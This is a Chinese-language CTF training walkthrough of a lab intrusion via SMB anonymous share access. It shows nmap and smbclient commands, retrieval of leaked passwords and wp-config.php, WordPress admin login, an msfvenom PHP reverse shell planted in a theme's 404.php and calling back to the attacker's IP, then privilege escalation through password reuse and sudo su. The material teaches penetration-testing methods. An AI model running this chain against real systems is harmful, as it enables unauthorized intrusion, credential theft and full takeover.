# CTF最强战队蓝莲花内部培训教程：P10：SMB信息泄露攻防实战 🚩

在本节课中，我们将学习如何利用SMB（Server Message Block）协议的信息泄露漏洞，逐步获取目标主机的访问权限，最终提升至root权限并取得flag值。

## 什么是SMB协议？

上一节我们介绍了课程目标，本节中我们来看看SMB协议的基础知识。



SMB是Server Message Block的缩写。它是一个由微软和英特尔公司在1987年制定的网络通信协议，主要作为微软网络的通信协议。后来，Linux系统移植了SMB协议，并将其改名为Samba。



SMB协议基于TCP-NetBIOS，通常使用的端口号是**139**和**445**。该协议用于访问网络上的共享资源，例如文件和打印机。当一台计算机开启SMB共享后，网络上的其他计算机就可以通过该协议连接并访问其共享的资源。





## 实验环境搭建



在开始实战之前，我们需要明确实验环境。





*   **攻击机**：Kali Linux，IP地址为 `192.168.253.12`。
*   **靶机**：一台Linux系统，IP地址为 `192.168.253.17`。



我们的最终目标是获取靶机上的flag值。为此，我们需要不择手段地获取靶机的最高权限。



## 第一步：信息收集与探测

拿到靶机IP后，第一步是进行信息探测。渗透测试的本质就是针对目标机器开放的服务进行漏洞探测，通过发送特定数据包来寻找弱点，最终获取权限。

以下是信息收集的常用步骤：





首先，我们使用Nmap对靶机进行服务版本扫描。

```bash
nmap -sV 192.168.253.17
```



此命令会探测靶机开放了哪些服务及其版本信息。



为了获取更全面的信息，我们可以使用更详细的扫描参数。



```bash
nmap -A -v -T4 192.168.253.17
```
*   `-A`：启用操作系统检测、版本检测、脚本扫描和路由追踪。
*   `-v`：显示详细输出。
*   `-T4`：指定扫描速度，T4为较快速度。

扫描完成后，我们需要分析结果。计算机上的服务通过端口进行通信，每个服务对应一个端口。0-1023是公认端口，通常分配给系统服务。在分析时，要特别注意非常规端口上运行的服务。

## 第二步：分析SMB服务弱点



从Nmap扫描结果中，我们发现靶机开放了139和445端口，运行着SMB服务。



针对开放的SMB服务，我们可以进行以下弱点分析：

1.  **尝试空口令登录**：查看SMB共享的文件夹，如果登录成功，就可能查阅或下载敏感文件。
2.  **搜索已知漏洞**：根据SMB版本号，搜索是否存在远程溢出漏洞。



首先，我们使用`smbclient`列出靶机上的所有共享目录。





```bash
smbclient -L //192.168.253.17
```



系统提示输入密码时，直接按回车使用空密码尝试。结果显示有三个共享：`print$`（打印机驱动）、`share`（共享文件夹）和`IPC$`（空连接，一种无需用户名即可建立的共享方式）。





接下来，我们尝试访问这些共享以查看内容。

使用以下命令格式访问特定共享：
```bash
smbclient //192.168.253.17/<共享名>
```

*   访问`print$`共享失败，提示权限不足。
*   访问`IPC$`共享成功，但无法列出目录内容，利用价值低。
*   访问`share`共享成功，并且可以使用空密码登录。

进入`share`共享后，使用`ls`命令列出文件。我们发现一个名为`deets.txt`的文件，使用`get`命令将其下载到本地。

```bash
get deets.txt
```

在另一个终端查看该文件内容：
```bash
cat deets.txt
```
文件中包含一行密码：`password: 12345`。我们将其记录下来。

继续在`share`共享目录中探索，发现一个`wordpress`目录。WordPress的配置文件`wp-config.php`中通常包含数据库的用户名和密码。我们下载该文件。

```bash
get wp-config.php
```

查看配置文件内容，找到了数据库的用户名（`admin`）和密码。

## 第三步：利用泄露信息扩大战果

我们获得了数据库凭据，但尝试远程登录MySQL服务（`mysql -h 192.168.253.17 -u admin -p`）和SSH服务（`ssh admin@192.168.253.17`）均告失败。

因此，我们转向HTTP服务进行弱点分析。使用`dirb`工具扫描Web目录。

```bash
dirb http://192.168.253.17
```



扫描结果中发现了`/wp-admin`目录，这是WordPress的后台管理登录页面。在浏览器中访问该页面，使用之前找到的用户名`admin`和密码`12345`进行登录，成功进入后台。

## 第四步：获取WebShell与反向连接



进入WordPress后台后，我们可以通过编辑主题文件的方式上传WebShell。



首先，使用`msfvenom`生成一个PHP反向Shell。
```bash
msfvenom -p php/reverse_tcp LHOST=192.168.253.12 LPORT=4444 -f raw
```
将生成的PHP代码（从`<?php`开始）保存为一个文件，例如`webshell.php`。

接着，在Metasploit中启动监听，等待靶机连接。
```msfconsole
use exploit/multi/handler
set payload php/reverse_tcp
set LHOST 192.168.253.12
set LPORT 4444
run
```

然后，在WordPress后台找到主题编辑器（Appearance -> Editor），编辑`404.php`模板文件，将生成的PHP代码粘贴进去并更新文件。



访问该WebShell的特定URL（例如 `http://192.168.253.17/wp-content/themes/<当前主题名>/404.php`）以触发代码执行。此时，Metasploit监听端会收到来自靶机的反向连接，我们获得了一个基础的Shell会话。



## 第五步：权限提升与获取Flag



获得的初始Shell功能有限，我们先优化它。
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```



现在，我们以`www-data`用户身份登录。查看系统用户，发现存在一个名为`togie`的用户。
```bash
cat /etc/passwd
```



尝试切换到`togie`用户，并使用之前找到的密码`12345`。
```bash
su togie
# 输入密码：12345
```
切换成功。





接下来，尝试提升到root权限。检查`togie`用户的sudo权限。
```bash
sudo -l
```
发现该用户可以使用`sudo su`命令。执行该命令以获取root权限。
```bash
sudo su
```

成功获得root权限后，在根目录下寻找flag文件。
```bash
cd /root
ls
cat flag.txt
```
最终，我们成功获取了靶机的flag值。



## 总结

本节课中我们一起学习了完整的SMB信息泄露攻击链。

1.  **信息收集**：使用Nmap扫描目标，发现开放的SMB服务（139/445端口）。
2.  **弱点利用**：利用空口令访问SMB共享，下载并分析敏感文件（如配置文件、文本文件），获取关键凭据（密码、数据库账号）。
3.  **横向移动**：利用获取的凭据尝试登录其他服务（SSH、数据库），或进入Web后台（如WordPress）。
4.  **获取立足点**：通过Web漏洞（如文件上传、代码注入）上传WebShell，建立反向连接，获得初始访问权限。
5.  **权限提升**：在系统内进行信息收集（查看用户、SUDO权限），利用密码复用或配置缺陷，逐步提升至root权限。
6.  **达成目标**：在root目录下找到并读取flag文件。



**核心要点**：对于开放139/445端口的机器，务必尝试使用`smbclient`空口令连接，并仔细检查共享目录中的文件。同时，flag通常位于`/root`目录下，必须获得root权限才能读取。